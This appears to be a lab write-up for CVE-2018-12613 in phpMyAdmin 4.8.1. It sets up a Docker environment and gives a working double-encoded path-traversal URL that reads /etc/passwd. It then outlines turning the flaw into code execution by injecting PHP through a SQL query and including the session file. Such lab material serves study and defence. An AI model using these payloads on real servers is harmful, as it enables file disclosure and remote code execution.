

# phpmyadmin 4.8.1 Remote File Containment Vulnerability (CVE-2018-12613)

phpMyAdmin is an open source, web-based MySQL database management tool. There is a file containing logic in index.php, which can be bypassed by secondary encoding, causing remote files to contain vulnerabilities.

Reference documentation:

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## vulnerability environment

Run the following command to start phpmyadmin 4.8.1:

```
Docker-compose up -d
```

After the environment is started, go to `http://your-ip:8080` and you will be taken to phpmyadmin. The configuration is "config" mode, so you don't need to enter a password to log in directly to the test account.

## Vulnerability recurrence

Visit `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/ Passwd`, visible `/etc/passwd` is read, indicating that the file contains a vulnerability:


The usage is also relatively simple, you can execute `SELECT '<?=phpinfo()?>';`, then check your sessionid (the value of phpMyAdmin in the cookie), and then include the session file:

